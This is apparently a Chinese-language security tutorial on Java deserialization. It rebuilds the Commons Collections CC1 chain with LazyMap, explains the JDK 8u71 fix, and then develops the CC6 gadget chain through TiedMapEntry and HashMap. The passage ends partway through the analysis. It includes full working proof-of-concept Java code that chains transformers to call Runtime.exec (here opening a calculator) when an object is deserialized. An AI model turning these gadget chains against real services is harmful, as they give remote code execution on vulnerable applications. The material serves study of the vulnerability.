Java安全之cc6链 前言 荒废了一段时间了，是时侯捡起cc链了，我们前面讲了CC1链和URLDNS链。但是CC1链中的AnnotationInvocationHandler会在jdk 8u71版本之后做了更改，所以高版本的时候CC1链就不适用了，此时我们只能寻找其它的调用链，也就是我们这一次要说的CC6.
声明：**文章中涉及的内容可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由用户承担全部法律及连带责任，文章作者不承担任何法律及连带责任。
新的cc1 我们都知道在CC1链中AnnotationInvocationHandler的readObject方法里面调用到setValue，所以我们需要寻找另外一个能调用到setValue的地方。
我们在分析CC1的时候是用TransformedMap去调用的transform。现在我们换成LazyMap这个类以另一种形式去实现CC1。

在LazyMap类中有一个get方法，其大致的意思是接收一个键（key），并返回与该键关联的值（value）。如果键不存在于映射（map）中，则通过工厂方法（factory.transform(key)）创建相应的值，并将键值对添加到映射中。这里调用了factory.transform。我们再去看哪里调用了LazyMap的get方法。

那么下一步就去找哪里调用了这个get，太难找了，我们直接就去分析前人总结的AnnotationInvocationHandler类吧。我们发现在sun.reflect.annotation的AnnotationInvocationHandler类中调用了get方法，且是我们可控的

我们往上看，发现是在invoke方法里面的。这个方法是只要外面有动态代理调用方法，就会调用这个invoke方法。

从代码分析上面看，最好不要满足第一个if，如果是调用了equals，就会直接进行return了。第二个if是如果参数不为零（如果调用的是有参方法），就会进行抛出异常。那么我们就需要在readObject中找到一个是调用无参方法的，正好在该类中就有一个。

此时的调用链大致为

实现新的cc1 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 package com.garck3h.ccChain;import org.apache.commons.collections.Transformer;import org.apache.commons.collections.functors.ChainedTransformer;import org.apache.commons.collections.functors.ConstantTransformer;import org.apache.commons.collections.functors.InvokerTransformer;import org.apache.commons.collections.map.LazyMap;import org.apache.commons.collections.map.TransformedMap;import java.io.FileInputStream;import java.io.FileOutputStream;import java.io.ObjectInputStream;import java.io.ObjectOutputStream;import java.lang.annotation.Target;import java.lang.reflect.Constructor;import java.lang.reflect.InvocationHandler;import java.lang.reflect.Proxy;import java.util.HashMap;import java.util.Map;public class cc1New { public static void main (String[] args) throws Exception { Transformer[] transformers = new Transformer []{ new ConstantTransformer (Runtime.class), new InvokerTransformer ("getMethod" ,new Class []{String.class,Class[].class},new Object []{"getRuntime" ,null }), new InvokerTransformer ("invoke" ,new Class []{Object.class,Object[].class},new Object []{null ,null }), new InvokerTransformer ("exec" ,new Class []{String.class},new Object []{"open -a Calculator.app" }) }; ChainedTransformer chainedTransformer = new ChainedTransformer (transformers); HashMap<Object,Object> map = new HashMap <>(); Map<Object,Object> lazydMap= LazyMap.decorate(map,chainedTransformer); Class c= Class.forName("sun.reflect.annotation.AnnotationInvocationHandler" ); Constructor constructor= c.getDeclaredConstructor(Class.class,Map.class); constructor.setAccessible(true ); InvocationHandler h = (InvocationHandler) constructor.newInstance(Override.class,lazydMap); Map mapProxy = (Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(),new Class []{Map.class},h); Object obj= constructor.newInstance(Override.class,mapProxy); serialize(obj); unserialize(); } public static void serialize (Object obj) throws Exception { ObjectOutputStream outputStream = new ObjectOutputStream ( new FileOutputStream ("ser.bin" )); outputStream.writeObject(obj); outputStream.close(); } public static void unserialize () throws Exception{ ObjectInputStream inputStream = new ObjectInputStream ( new FileInputStream ("ser.bin" )); Object obj = inputStream.readObject(); } }

cc1修复分析 我们看一下在新的版本中是被怎么修复的
原因：我们发现memberValues的获取方式做了修改

根本原因：setvalue被移除了

CC6分析 我们分析了cc1的修复，发现从AnnotationInvocationHandler类中去实现cc1已经不可能了，两种实现的方式都被修复了。但是TransformedMap类和LazyMap类后面的链还是可以继续使用的。下面我们继续用LazyMap类后半部分来构造新的链，也就是我们下面要说的cc6。
我们在TiedMapEntry类中发现了getValue方法里面有调用到LazyMap类的get

在本类中的hashCode又调用了getValue

我们都知道在hashmap的里面有调用了hashCode的

我们继续跟进去看看哪里调用hashCode；于是就很熟悉了，想起了URLDNS的那条链，在HashMap这个类中的readObject方法中调用了hash，然后hash里面又调用了hashCode

readObject方法中调用了hash

构造cc6 poc 于是我们就可以结合URLDNS那条链来进行构造cc6；前面的执行命令和使用LazyMap都是和上述讲的cc1是一样的，我们从TiedMapEntry开始。
实例化一个TiedMapEntry，我们看一下构造函数，需要传入一个mao和一个key
我们就写成这样，传入一个map,然后key就随便写了
1 TiedMapEntry tiedMapEntry = new TiedMapEntry (decorate, "qwe" );
然后再实例化一个hashmap把当作key放进去，因为hashmap的readObject方法是对key进行hash的，然后value随意
1 2 HashMap<Object, Object> objcc6 = new HashMap <>(); objcc6.put(tiedMapEntry,"asd" );
写到这里，直接进行序列化的阶段就会直接触发了
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 package com.garck3h.ccChain;import org.apache.commons.collections.Transformer;import org.apache.commons.collections.functors.ChainedTransformer;import org.apache.commons.collections.functors.ConstantFactory;import org.apache.commons.collections.functors.ConstantTransformer;import org.apache.commons.collections.functors.InvokerTransformer;import org.apache.commons.collections.keyvalue.TiedMapEntry;import org.apache.commons.collections.map.LazyMap;import java.io.FileInputStream;import java.io.FileOutputStream;import java.io.ObjectInputStream;import java.io.ObjectOutputStream;import java.lang.reflect.Field;import java.util.HashMap;import java.util.Map;public class cc6demo { public static void main (String[] args) throws Exception { Transformer[] transformers = new Transformer []{ new ConstantTransformer (Runtime.class), new InvokerTransformer ("getMethod" , new Class []{String.class, Class[].class}, new Object []{"getRuntime" , null }), new InvokerTransformer ("invoke" , new Class []{Object.class, Object[].class}, new Object []{null , null }), new InvokerTransformer ("exec" , new Class []{String.class}, new Object []{"open -a Calculator.app" }) }; ChainedTransformer chainedTransformer = new ChainedTransformer (transformers); HashMap<Object, Object> hashMap = new HashMap <>(); Map<Object, Object> lazyMap = LazyMap.decorate(hashMap, chainedTransformer); TiedMapEntry tiedMapEntry = new TiedMapEntry (lazyMap, "qwe" ); HashMap<Object, Object> objcc6 = new HashMap <>(); objcc6.put(tiedMapEntry,"asd" ); serialize(objcc6); unserialize(); } public static void serialize (Object obj) throws Exception { ObjectOutputStream outputStream = new ObjectOutputStream ( new FileOutputStream ("cc6.bin" )); outputStream.writeObject(obj); outputStream.close(); } public static void unserialize () throws Exception{ ObjectInputStream inputStream = new ObjectInputStream ( new FileInputStream ("cc6.bin" )); Object obj = inputStream.readObject(); } }

因为在put的时候就调用了hash对key进行hash，从而就直接触发我们构造的链了。

捋一下现在的情况是，tiedMapEntry里面套着一个lazyMap，lazyMap里面套这一个chainedTransformer，chainedTransformer里面套着transformer。这几个里面可以把任意一个修改为空的就行。
1 tiedMapEntry---lazyMap---chainedTransformer---transformer
这里我们通过反射修改lazyMap为空。
我们一开始序列化的时候给map先传入的是没用的chainedTransformer(1)，然后再传入的是执行命令的chainedTransformer
1 2 3 4 5 6 Map<Object, Object> lazyMap = LazyMap.decorate(hashMap, new ConstantFactory (1 )); Class c = LazyMap.class;Field factoryField = null ;factoryField = c.getDeclaredField("factory" ); factoryField.setAccessible(true ); factoryField.set(lazyMap,chainedTransformer);

进行序列化和反序列化，发现还是没能执行成功。

我们分析一下看看；当进行put的时候，就调用了hash
